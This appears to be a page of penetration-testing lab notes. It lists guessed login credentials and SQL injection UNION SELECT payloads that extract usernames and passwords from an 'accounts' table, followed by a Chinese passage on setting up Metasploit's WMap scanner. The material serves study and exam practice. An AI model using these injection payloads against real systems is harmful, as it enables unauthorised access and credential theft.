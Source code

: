 ```

Username=somepassword
Password=
Signature=

Username=monkey
Password=
Signature=

Username=password
Password=
Signature=

Username=password
Password=
Signature=

' UNION SELECT username, password, NULL, NULL, NULL FROM accounts --
' UNION SELECT username, username, NULL, NULL, NULL FROM accounts -- 
' UNION SELECT username, username, password, password, NULL FROM accounts -- 

' UNION SELECT username, password, NULL, NULL, NULL FROM accounts -- 
' UNION SELECT username || ':' || password, NULL, NULL, NULL FROM accounts -- 
Error executing query: The used SELECT statements have a different number of columns

' UNION SELECT username || ':' || password || ':' || NULL || ':' || NULL || ':' || NULL FROM accounts --
```

## **WMap 替代工具**

**如果 Nikto 帮不了你，还有一个选择。metasploit 框架包括 WMap，它作为一个内置的 Nikto。它有自己的语法，并且要求您的 Metasploit 控制台数据库正在运行并且配置正确。在考试或实验期间，postgresql 可能会离线。如果您正在使用 msfconsole 执行笔测试任务，请使用 db_status 进行双重检查。如果它处于离线状态，请继续为您的虚拟机会话执行以下步骤(请记住，postgresql 不会在重新启动时重新打开，因此可能需要在您的~/中使用它。配置文件。)**

```
#setup MSF database including WMAP dependencies
systemctl start postgresql
msfdb init
msfconsole
db_status
load wmap
```
